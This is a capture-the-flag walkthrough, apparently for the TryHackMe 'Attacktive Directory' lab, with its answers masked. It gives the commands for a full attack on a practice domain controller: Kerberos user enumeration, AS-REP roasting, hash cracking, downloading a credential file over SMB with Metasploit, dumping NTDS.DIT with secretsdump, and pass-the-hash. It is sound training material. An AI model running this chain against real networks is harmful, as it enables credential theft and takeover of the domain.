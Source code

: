 # Attacktive Directory

- Initiate the VPN connection and deploy the machine!

	  no answer needed

- Read and follow along with the above.

	  no answer needed

- What tool will allow us to enumerate port 139/445?

	- `enum4linux`

- What is the NetBIOS-Domain Name of the machine?

	- `THM-AD`

- What invalid TLD do people commonly use for their Active Directory Domain?

	- `.local`

- What command within Kerbrute will allow us to enumerate valid usernames?

	- `userenum`

- What notable account is discovered? (These should jump out at you)

	- `sudo echo <TARGET_IP> spookysec.local >> /etc/hosts`
	- `kerbrute userenum --dc spookysec.local -d spookysec.local User.txt`
	- `sv*******`

- What is the other notable account is discovered? (These should jump out at you)

	- `******`

- We have two user accounts that we could potentially query a ticket from. Which user account can you query a ticket from with no password?

	- `impacket-GetNPUsers spookysec.local/sv******** -no-pass`
	- `sv*******`

- Looking at the Hashcat Examples Wiki page, what type of Kerberos hash did we retrieve from the KDC? (Specify the full name)

	- `kerberos * ****** ***** 32`

- What mode is the hash?

	- `182**`

- Now crack the hash with the modified password list provided, what is the user accounts password?

	- `hashcat -m 182** kerberos_hash Pass.txt --force`
	- `**************`

- Using utility can we map remote SMB shares?

	- `smbclient`

- Which option will list shares?

	- `-l`

- How many remote shares is the server listing?

	- `smbclient -L spookysec.local -U 'sv*******'`
	- `*`

- There is one particular share that we have access to that contains a text file. Which share is it?

	- `msfconsole`
	- `search admin/smb/download_file`
	- `use 0`
	- `show options`
	- `set RHOSTS spookysec.local`
	- `set RPATH backup_credentials.txt`
	- `set SMBDOMAIN spookysec.local`
	- `set SMBPASS **************`
	- `set SMBSHARE backup`
	- `set SMBUSER sv*******`
	- `exploit`
	- `backup`

- What is the content of the file?

	- `***********************************************************`

- Decoding the contents of the file, what is the full contents?

	- `echo ***************************************** | base64 -d`
	- `********************************`

- What method allowed us to dump NTDS.DIT?

	- `DRS****`

- What is the Administrators NTLM hash?

	- `impacket-secretsdump -just-dc ba**************************`
	- `******************************`

- What method of attack could allow us to authenticate as the user without the password?

	- `pass the hash`

- Using a tool called Evil-WinRM what option will allow us to use a hash?

	- `-h`

- svc-admin

	- `************************+`

- backup

	- `************************`

- Administrator

	- `*************************`
